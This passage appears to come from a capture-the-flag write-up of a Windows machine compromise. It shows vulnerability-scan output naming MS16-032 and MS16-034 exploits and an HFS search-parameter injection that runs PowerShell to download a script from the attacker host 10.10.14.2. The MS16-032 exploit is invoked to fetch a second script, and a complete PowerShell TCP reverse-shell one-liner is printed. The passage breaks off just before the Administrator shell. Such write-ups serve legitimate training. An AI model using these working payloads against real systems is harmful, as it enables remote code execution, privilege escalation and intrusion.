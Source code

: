 ```
   [>] Exploit: https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1
   [>] Notes: None.

  [*] Appears vulnerable to MS16-034
   [>] Description: An EoP exist when the Windows kernel-mode driver fails to properly handle objects in memory.
   [>] Exploit: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034
   [>] Notes: None.

 [*] Finished. Found 5 vulns :)
```

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False
```

Since we are on 32 bit we'll need to switch to 64 bit before any of these exploits will work.

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString(%27http%3a//10.10.14.2/shell.ps1%27).}
```

```
$ cat ps2.txt
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.2/up.ps1')
```

```
$ tail up.ps1
            $CallResult = [Kernel32]::CloseHandle($ProcessInfo.hProcess)
            $CallResult = [Kernel32]::CloseHandle($ProcessInfo.hThread)
        }

        $StartTokenRace.Stop()
        $SafeGuard.Stop()
    }
}

Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.2/shell2.ps1')"
```

```
$ cat shell2.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.2',4445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Now we are 64 bit and can run our exploit that will create a reverse shell as Administrator:
